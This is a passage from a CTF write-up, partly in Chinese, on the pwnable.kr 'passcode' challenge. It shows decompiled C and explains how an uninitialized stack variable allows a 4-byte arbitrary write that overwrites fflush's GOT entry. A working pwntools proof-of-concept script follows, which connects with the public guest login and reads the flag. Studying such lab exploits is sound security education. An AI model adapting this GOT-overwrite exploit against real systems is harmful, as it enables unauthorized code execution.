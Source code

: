 ```
    puts("Login Failed!");
    exit(0);
  }
  puts("Login OK!");
  return system("/bin/cat flag");
}
```

```
int welcome()
{
  char v1; // [sp+18h] [bp-70h]@1
  int v2; // [sp+7Ch] [bp-Ch]@1

  v2 = *MK_FP(__GS__, 20);
  printf("enter you name : ");
  __isoc99_scanf("%100s", &v1);
  printf("Welcome %s!\n", &v1);
  return *MK_FP(__GS__, 20) ^ v2;
}
```

可以发现，两个函数的v1的位置都是sp+18h，所以我们可以通过构造name来控制passcode1的值，从而造成一个4字节的任意地址写，我们可以把`fflush`的`got`表值改成`0x080485E3`

```
.text:080485E3                 mov     dword ptr [esp], offset command ; "/bin/cat flag"
.text:080485EA                 call    _system
```

poc:

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['terminator','-x','bash','-c']
rr = 1
if rr:
	cn = ssh(host='pwnable.kr',user='passcode',password='guest',port=2222).process("./passcode")
else:
	cn = process('./passcode')

bin = ELF('./passcode')

cn.recv()
cn.sendline('a'*96+p32(bin.got['fflush']))
cn.recv()


cn.sendline(str(0x080485E3))

print cn.recv()
```

